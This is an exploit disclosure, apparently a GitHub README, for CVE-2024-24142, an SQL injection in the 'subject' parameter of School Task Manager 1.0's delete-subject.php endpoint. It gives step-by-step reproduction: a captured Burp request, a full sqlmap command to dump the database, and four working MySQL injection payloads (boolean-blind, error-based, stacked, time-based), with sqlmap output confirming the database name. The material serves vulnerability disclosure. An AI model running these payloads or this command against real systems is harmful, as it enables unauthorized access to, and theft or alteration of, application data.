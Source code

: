 # CVE-2024-24142:  School-Task-Manager-SQL-Injection-2
+ **Exploit Title:**  CVE-2024-24142: School-Task-Manager-SQL-Injection-2
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16877/school-task-manager-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16877&title=School+Task+Manager+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24142

## Description:
School Task Manager 1.0 allows SQL Injection via the 'subject' parameter in "/school-task-manager/endpoint/delete-subject.php?subject=6". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/school-task-manager/index.php"
+ Select any subject and press the delete-subject button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /school-task-manager/endpoint/delete-subject.php?subject=6 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'subject' parameter to dump the database. 
```
sqlmap -r r.txt -p subject --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: subject (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: subject=6' RLIKE (SELECT (CASE WHEN (2936=2936) THEN 6 ELSE 0x28 END))-- rdYA

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: subject=6' AND EXTRACTVALUE(1488,CONCAT(0x5c,0x716b6a6a71,(SELECT (ELT(1488=1488,1))),0x716a6a7671))-- ahTU

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: subject=6';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: subject=6' AND (SELECT 6603 FROM (SELECT(SLEEP(5)))iBWA)-- DMXl
---
[17:57:53] [INFO] testing MySQL
[17:57:53] [INFO] confirming MySQL
[17:57:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[17:57:54] [INFO] fetching current database
[17:57:54] [INFO] resumed: 'school_task_manager_db'
current database: 'school_task_manager_db'
```
+ current database: `school_task_manager_db`
![Ekran görüntüsü 2024-01-22 030650](https://github.com/BurakSevben/School-Task-Manager-SQL-Injection-2/assets/117217689/fbdf10ae-37a6-4262-a703-57e62f01649e)
